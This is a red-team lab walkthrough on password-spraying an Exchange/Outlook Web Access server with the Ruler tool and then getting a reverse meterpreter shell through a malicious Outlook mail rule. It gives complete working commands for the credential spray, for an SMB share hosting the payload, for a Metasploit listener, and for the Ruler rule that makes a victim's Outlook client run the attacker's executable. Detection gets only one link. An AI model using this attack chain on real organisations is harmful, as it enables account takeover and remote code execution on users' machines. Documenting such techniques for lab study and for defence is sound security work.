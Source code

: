 # Password Spraying Outlook Web Access: Remote Shell

## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is a form of password brute-forcing attack. In password spraying, an attacker \(with the help of a tool\) cycles through a list of possible usernames \(found using OSINT techniques against a target company or other means\) with a couple of most commonly used weak passwords.

In comparison, a traditional brute-force works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted for that user name, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| ben | Winter2018 |
| ... | Winter2018 |
| john | December2018! |
| ben | December2018! |
| ... | December2018! |

Standard password brute-forcing could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| john | Winter2018! |
| john | Password1 |
| ben | Winter2018 |
| ben | Winter2018! |
| ben | Password1 |

## Password Spraying

Let's try doing a password spray against an Exchange 2016 server in a `offense.local` domain:

{% code title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../../.gitbook/assets/peek-2018-12-23-15-07.gif)

The above shows that password spray was successful against the user `spotless` who used a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your `/etc/hosts` to point to your Exchange server:

![](../../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)

## Getting a Shell via Malicious Email Rule

### Process Overview

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage `Ruler` to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

A high level overwiew of how the spraying and remote code execution works:

* assume you have obtained working credentials during the spray for the user `spotless@offense.local`
* with the help of `Ruler`, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of: `if emailSubject contains` **`someTriggerWord`**_`start`_**`pathToSomeProgram`**
* A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`
* User `spotless` logs on to his/her workstation and launches Outlook client to check for new email
* Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in `pathToSomeProgram` which is pointing to a malicious payload giving a reverse shell to the attacker

### Execution

Let's validate the compromised credentials are working by checking if there are any email rules created already:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```
{% endcode %}

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](../../.gitbook/assets/screenshot-from-2018-12-23-17-15-36.png)

To carry out the attack further, I've generated a reverse meterpreter payload and saved it as a windows executable in `/root/tools/evilm64.exe`

We now need to create an SMB share that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:

{% code title="attacker@kali" %}
```csharp
smbserver.py tools /root/tools/
```
{% endcode %}

Next, we setup a metasploit listener to catch the incoming reverse shell:

{% code title="attacker@kali" %}
```csharp
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```
{% endcode %}

Finally, we fire up the ruler and create the malicious email rule:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```
{% endcode %}

Below shows the entire attack and all of the steps mentioned above in action - note how the compromised mailbox does not even get to see the malicious email coming in:

![](../../.gitbook/assets/peek-2018-12-23-18-13.gif)

Below shows the actual malicious rule that got created as part of the attack - note the `subject` and the `start` properties - we specified them in the ruler command:

![](../../.gitbook/assets/screenshot-from-2018-12-23-18-17-10.png)

If you want to delete the malicious email rule, do this:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```
{% endcode %}

## Detection & Mitigation

{% embed url="https://www.microsoft.com/en-us/microsoft-365/blog/2018/03/05/azure-ad-and-adfs-best-practices-defending-against-password-spray-attacks/" caption="" %}

## References

{% embed url="https://github.com/sensepost/ruler/wiki" caption="" %}

{% embed url="https://silentbreaksecurity.com/malicious-outlook-rules/" caption="" %}

{% embed url="https://labs.mwrinfosecurity.com/blog/malicous-outlook-rules/" caption="" %}

{% embed url="https://www.blackhillsinfosec.com/introducing-mailsniper-a-tool-for-searching-every-users-email-for-sensitive-data/" caption="" %}

